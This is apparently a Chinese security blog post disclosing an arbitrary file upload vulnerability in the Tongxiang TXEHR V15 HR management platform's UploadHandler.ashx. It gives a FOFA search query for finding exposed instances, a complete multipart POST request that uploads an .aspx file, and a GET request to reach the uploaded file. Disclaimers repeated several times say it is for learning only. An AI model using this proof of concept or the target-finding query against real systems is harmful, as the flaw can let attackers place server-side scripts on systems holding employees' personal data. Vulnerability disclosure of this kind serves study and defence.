 #  同享人力管理管理平台 UploadHandler 任意文件上传漏洞  
 HK安全小屋   2025-06-13 14:06  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
同享软件成立于1997年，运营中心位于东莞南城南新产业国际。专注研发和推广人力资源信息化产品，帮助企业构建统一的人力资源数智化平台，快速提高企业人才管理能力，提升人力资源管理效率，帮助员工快速成长，协助企业实现智慧决策。同享TXEHR V15人力管理管理平台UploadHandler存在任意文件上传漏洞。  
  
  
影响版本：  
  
同享人力管理管理平台  
  
  
FOFA:  
```
body="/Assistant/Default.aspx"
```  
  
  
POC：  
```
POST /Handler/UploadHandler.ashx?folder=Uploadfile2 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 183
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------123
Connection: close
-----------------------------123
Content-Disposition: form-data; name="Filedata"; filename="12333333.aspx"
Content-Type: text/plain
safdsfsfaa
-----------------------------123--
```  
  
成功上传  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI03TkiaiaNDyHzjPWeHXGxX7dL7yJHUPJCtE7Dmh3J6s9V2pN9fv4zA7r2wuZ8gLLibTVNtnK2E1g4xQ/640?wx_fmt=png&from=appmsg "")  
  
访问如下路径  
```
GET /Handler/Uploadfile2/12333333.aspx HTTP/1.1
Host: 
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI03TkiaiaNDyHzjPWeHXGxX7dV3Yd8dADg0EIzKbeLbajutT3AIaDC6qvicx1rkMInwmQL28LrWeSotw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
